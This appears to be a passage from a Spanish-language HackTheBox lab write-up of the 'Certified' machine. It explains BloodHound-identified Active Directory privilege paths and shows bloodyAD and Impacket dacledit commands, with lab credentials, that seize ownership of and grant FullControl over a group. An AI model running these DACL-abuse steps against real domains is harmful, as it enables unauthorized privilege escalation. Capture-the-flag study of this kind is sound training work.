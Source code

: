 - Aquí podemos ver 3 privilegios importantes que tienen estos usuarios.

<p align="center">
<img src="/assets/hackthebox/img/machines/medium/Certified/2.png">
</p>

- El usuario `judith.mader` tiene privilegios `WriteOwner` sobre el grupo `management` <https://support.bloodhoundenterprise.io/hc/en-us/articles/17312755938203-WriteOwner>.

- El grupo `management` tiene `GenericWrite` sobre el usuario `management_svc` <https://support.bloodhoundenterprise.io/hc/en-us/articles/17312606850203-GenericWrite>.

- Y el usuario `management_svc` tiene el atributo `CanPSRemote` lo que significa que podemos tener una consola interactiva usando a ese usuario <https://support.bloodhoundenterprise.io/hc/en-us/articles/17322220586779-CanPSRemote>.

## User flag

- Bien tenemos que ir en orden como no los muestra en el `BloodHound` lo primero que tenemos que hacer es aprovecharnos del `WriteOwner` para obtener el control del grupo `management` y poder añadirnos a ese grupo <https://www.hackingarticles.in/abusing-ad-dacl-writeowner/>.

```bash
❯ bloodyAD --host '10.10.11.41' -d "certified.htb" -u "judith.mader" -p "judith09" set owner management judith.mader
[+] Old owner S-1-5-21-729746778-2675978091-3820388244-512 is now replaced by judith.mader on management
```

- Ahora vamos a darle el control del grupo para poder añadir usuarios.

```bash
❯ python3 dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal 'judith.mader' -target 'management' "certified.htb"/"judith.mader":"judith09"

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20250316-092252.bak
[*] DACL modified successfully!
```
